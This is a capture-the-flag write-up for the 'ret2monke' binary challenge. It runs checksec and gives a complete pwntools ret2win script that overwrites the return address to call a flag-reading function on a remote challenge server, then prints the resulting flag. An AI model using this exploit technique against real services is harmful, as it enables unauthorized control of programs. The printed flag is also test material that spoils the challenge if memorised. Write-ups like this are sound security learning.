


```sh
checksec --file ret2monke
```



Cannot do shellcode injection, lets look at decompiled code
Decompiled code of `monke` function



The function monke read data from flag.txt and prints it so its basic return 2 win challenge, here is the solve script for it

```python
#!/usr/bin/env python3

from pwn import *

exe = './ret2monke'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = '165.227.103.166',6001

#p = process(exe)
p = remote(host,port)

padding = 120

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    elf.symbols['monke'],
)

p.sendlineafter(b'things?',payload)
p.interactive()
```

**_flag : CIT{pl3nty_0f_b4n4n4z_f0r_y0u!\_992obAKLRsklnqf235io1lWK9io13}_**
